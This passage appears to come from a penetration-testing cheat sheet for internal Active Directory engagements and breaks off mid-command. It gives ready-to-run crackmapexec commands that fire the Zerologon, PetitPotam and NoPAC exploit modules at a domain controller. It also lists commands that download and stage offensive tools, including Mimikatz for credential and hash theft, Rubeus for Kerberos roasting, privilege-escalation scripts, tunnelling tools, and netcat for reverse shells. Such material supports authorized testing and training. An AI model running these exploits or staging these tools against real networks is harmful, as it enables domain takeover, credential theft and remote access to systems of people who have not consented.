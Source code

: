 	- [ ] Groups (memberships)
	- [ ] Services (which hosts? users w/ SPNs?)
	- [ ] Computers (which ones have useful sessions?)

When you start your internal pentest, these are the first modules you should try:

```sh
# Zerologon
crackmapexec smb DC_IP -u '' -p '' -M zerologon

# PetitPotam
crackmapexec smb DC_IP -u '' -p '' -M petitpotam

# NoPAC (requires credentials)
crackmapexec smb DC_IP -u 'user' -p 'pass' -M nopac
```


Before starting enumeration, get the tools you might need ready:

```sh
# WinPEAS for automated Windows enumeration
wget -O winpeas.exe https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe

# PowerUp for Winodws privilege escalation
cp /usr/share/powershell-empire/empire/server/data/module_source/privesc/PowerUp.ps1 .

# PowerView for manual AD enumeration
cp /usr/share/windows-resources/powersploit/Recon/PowerView.ps1 .
chmod -x PowerView.ps1

# SharpHound for automated AD enumeration
wget https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1

# sysinternals suite in case you need it
wget -O sysinternals.zip https://download.sysinternals.com/files/SysinternalsSuite.zip
unzip -d sysinternals sysinternals.zip

# Invoke-Mimikatz.ps1 and mimikatz.exe for hashes/tokens
cp /usr/share/windows-resources/powersploit/Exfiltration/Invoke-Mimikatz.ps1 .
cp /usr/share/windows-resources/mimikatz/Win32/mimikatz.exe ./mimikatz32.exe
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe ./mimikatz64.exe
wget -O mimikatz.zip https://github.com/gentilkiwi/mimikatz/releases/latest/download/mimikatz_trunk.zip
unzip -d mimikatz mimikatz.zip

# Rubeus.exe for AS-REP roasting, etc.
wget -O Rubeus.exe https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe

# windapsearch for LDAP enumeration
wget -O windapsearch https://github.com/ropnop/go-windapsearch/releases/latest/download/windapsearch-linux-amd64
chmod +x windapsearch

# plink.exe for port redirection/tunneling
cp /usr/share/windows-resources/binaries/plink.exe .
chmod -x plink.exe

# nc.exe for reverse/bind shells and port redirection
cp /usr/share/windows-resources/binaries/nc.exe .
chmod -x nc.exe

# chisel for port redirection/tunneling
/mnt/share/cheat/tools/get-chisel.sh || (
```